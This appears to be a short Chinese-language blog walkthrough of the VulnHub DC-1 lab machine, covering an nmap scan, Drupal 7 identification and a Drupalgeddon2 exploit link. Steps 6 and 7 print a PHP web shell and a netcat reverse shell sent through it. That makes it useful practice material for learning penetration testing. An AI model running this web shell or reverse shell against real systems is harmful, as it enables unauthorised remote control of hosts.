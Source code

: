 ```yaml
---
layout: post
title: VulnHub-DC1
date: 2022-03-20
Author: LuYee6813
tags: [vulnhub]
toc: true
---
```



## 1. 尋找DC-1靶機
```linux=
$ nmap 10.0.2.4 -A -p-
```
***
## 2. 發現有port 80 -> 直接瀏覽網頁
![](https://i.imgur.com/I1N1wgZ.png)
***
## 3. 使用wappalyzer得知使用Drupal 7
![](https://i.imgur.com/B8nHsAB.png)
***
## 4. 搜尋已知Exploit來取得RCE 
- CVE-2018-7600
> Exploit:https://github.com/dreadlocked/Drupalgeddon2
***
## 5. ls -> 發現flag1
![](https://i.imgur.com/4pA9CSv.png)
***
## 6. 發現有shell.php 
```php    
<?php if( isset( $_REQUEST['c'])) { system( $_REQUEST['c'] . ' 2>&1 ');}>
```
***
## 7. 使用nc 監聽取回reverse shell(python pty)
```linux=
http://10.0.2.4/shell.php?c=nc%20-e%20%2Fbin%2Fsh%2010.0.2.15%208080
nc -e /bin/sh 10.0.2.15 8080
python -c "import pty;pty.spawn('/bin/bash')"
```
***


